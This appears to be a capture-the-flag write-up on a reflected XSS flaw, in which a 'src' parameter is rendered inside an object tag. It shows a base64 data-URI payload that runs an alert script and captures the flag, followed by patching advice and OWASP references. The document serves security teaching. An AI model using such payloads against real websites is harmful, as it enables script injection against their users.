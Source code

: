 # Reflected XSS

## Exploit

On the home, one of the nsa image is clickable.\
A `GET /?page=media&src=nsa HTTP/1.1` request is send and a new page is rendered with the image on it.\
The image is rendered inside a [object HTML tag](https://www.w3schools.com/tags/tag_object.asp) which shouldn't be used anymore.\
We change the request and add what we want to be send back to us. \
for example: `src=data:text/html;<script>alert("42");</script>`\
It works but it is html encoded so it doesn't trigger the script.\
`<object data="data:text/html;&lt;script&gt;alert(&quot;42&quot;);&lt;/script&gt;"></object>`\
The next step is to base64 encode the payload:
`/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiNDIiKTs8L3NjcmlwdD5g`\
The script is run and we get the flag.

## Patch

- Sanitize user inputs by removing or escaping any HTML tags or characters that can be interpreted as code.
- Use libraries like DOMPurify (for JavaScript) to sanitize HTML content.
- Encode data before rendering it on the page to prevent browsers from interpreting user inputs as HTML or JavaScript. In web frameworks, use built-in functions for safe output rendering, such as htmlspecialchars() in PHP or escapeHTML() in JavaScript.
- Many web frameworks (like Django, Ruby on Rails, and React) have built-in mechanisms to prevent HTML injection by default. For example, React automatically escapes any dynamic content to prevent script injection.

## Resources

[Portswinger Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)

[OWASP Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)

[OWASP Prevention of XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
